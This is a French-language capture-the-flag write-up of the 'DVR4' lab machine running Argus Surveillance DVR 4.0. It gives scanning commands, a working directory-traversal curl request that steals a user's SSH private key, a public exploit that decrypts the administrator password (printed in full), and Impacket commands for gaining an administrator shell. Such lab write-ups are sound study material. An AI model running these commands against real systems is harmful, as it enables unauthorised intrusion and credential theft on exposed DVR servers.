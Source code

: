   # DVR4

	sudo masscan -p1-65535,U:1-65535 192.168.174.179 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.174.179 -oN nmap.txt
	feroxbuster --silent -u http://192.168.174.179:8080
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    5040/tcp open unknown  
    8080/tcp open http-proxy  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC

http://192.168.174.179:8080/ActiveXIFrame.html => Création de caméras
</br>http://192.168.174.179:8080/Users.html => Liste des utilisateurs (Administrator et Viewer)

Le site utilise Argus Surveillance DVR 4.0 comme l'indiquent les en-têtes du site et le titre de la VM. Il y a plusieurs exploits existants : 
	</br>- https://www.exploit-db.com/exploits/50261
	</br>- https://www.exploit-db.com/exploits/50130
	</br>- https://www.exploit-db.com/exploits/45312
	</br>- https://www.exploit-db.com/exploits/45296

Le seul que l'on peut utiliser pour l'instant est l'exploit de type Directory Traversal, et en effet le PoC fonctionne bien. J'ai également réussi à avoir le fichier **C:\Windows\System32\drivers\etc\hosts** mais il ne contenait rien d'intéressant. On a vu qu'il y avait un service SSH et on connaît le nom de deux utilisateurs, j'ai essayé les fichiers **C:\Users\Administrator\\.ssh\id_rsa** et  **C:\Users\Viewer\\.ssh\id_rsa** et le deuxième est passé. J'ai aussi testé **%UserProfile%\\.ssh\id_rsa** par curiosité mais sans succès. 


	curl "http://192.168.174.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

	curl --output id_rsa "http://192.168.174.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

	chmod 600 id_rsa

	ssh -i id_rsa -l Viewer 192.168.174.179
	...
	type C:\Users\Viewer\Desktop\local.txt

Élévation de privilèges reprenant l'exploit /50130 trouvé plus haut. Attention à bien prendre le mot de passe chiffré de l'administrateur et non pas celui de Viewer. Il faut prendre celui que l'on trouve en premier après la ligne "LoginName0=Administrator" et le remplacer dans l'exploit.

	python exploit_Argus_DVR_50130.py

On obtient le résultat suivant : 

    [+] ECB4:1
    [+] 53D1:4
    [+] 6069:W
    [+] F641:a
    [+] E03B:t
    [+] D9BD:c
    [+] 956B:h
    [+] FE36:D
    [+] BD8F:0
    [+] 3CD9:g
    [-] D9A8:Unknown

Le problème est que le dernier caractère n'a pas été trouvé. Au lieu de bêtement tester manuellement tous les caractères spéciaux j'ai décidé d'automatiser le processus avec Impacket et une boucle. J'ai choisi le service SMB parce que je l'ai vu sur Nmap et parce que c'est généralement une valeur sûre . Par chance le caractère manquant était un "$" et j'avais pensé à l'inclure dans le tableau dès mes premiers tests. Impacket ne m'a sorti que des erreurs mais l'erreur du "$" était différente et cela a attiré mon attention. En revanche la connexion se fermait directement et j'ai dû faire autrement pour la vraie connexion finale : 

	Array=("\\"  "\$"  "\#"  "\@"  "\!"  "\?"  "\^")
	for i in $Array ;  do  print $i ;  impacket-smbexec Administrator:"14WatchD0g$i"@192.168.174.179;  done
	...
	impacket-smbexec Administrator:'14WatchD0g$'@192.168.174.179
	...
	impacket-wmiexec Administrator:'14WatchD0g$'@192.168.174.179 
	C:\>whoami
	C:\>type C:\Users\Administrator\Desktop\proof.txt
	

